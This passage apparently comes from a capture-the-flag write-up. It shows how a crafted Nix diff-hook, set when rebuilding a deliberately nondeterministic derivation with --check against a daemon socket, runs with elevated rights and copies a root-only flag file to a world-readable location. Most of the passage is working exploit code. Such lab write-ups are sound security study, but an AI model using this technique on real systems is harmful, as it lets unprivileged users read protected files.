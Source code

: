 This `diff-hook` is executed when the output of the same derivation differs
from a previous build, with the goal of calculating the differences
between the two builds (hence the name).
Therefore, to take advantage of `diff-hook`, we need to build an unstable
derivation, that is, a derivation that doesn't always produce the same output.
An easy way to achieve this is to read from `/dev/random` and write it
to the derivation output, as such:

```nix, hl_lines=10
{
  exploit-inner = pkgs.stdenv.mkDerivation {
    name = "exploit-inner";

    phases = ["installPhase"];

    installPhase = ''
      mkdir $out
      # Write 16 random bytes to $out/data
      dd if=/dev/urandom of=$out/data bs=16 count=1
    '';
  };
}
```

With our unstable derivation at hand, we can now build it twice,
making sure to tell Nix to rebuild the derivation a second time
with the `diff-hook` and to check it against the previous build
with the `--check` option, otherwise it would just realise it had
already been built and do nothing.

Our specially crafted `diff-hook` simply copies the flag, which
it has access to, to a different file that is readable by the
non-root user.

```nix, hl_lines=13-15 20
# ...
{
  packages.${system} = rec {
    exploit = pkgs.stdenv.mkDerivation {
      # ...
      installPhase = ''
        export NIX_REMOTE=unix:///tmp/daemon
        cp $src default.nix
        nix-build -A exploit-inner \
          -I nixpkgs=${nixpkgs}
        nix-build -A exploit-inner \
          -I nixpkgs=${nixpkgs} \
          --option diff-hook ${diffHook} \
          --option run-diff-hook true \
          --check
      '';
    };

    diffHook = pkgs.writeScript "diff-hook" ''
      cat /data/flag > /tmp/flag
    '';
  };
}
```

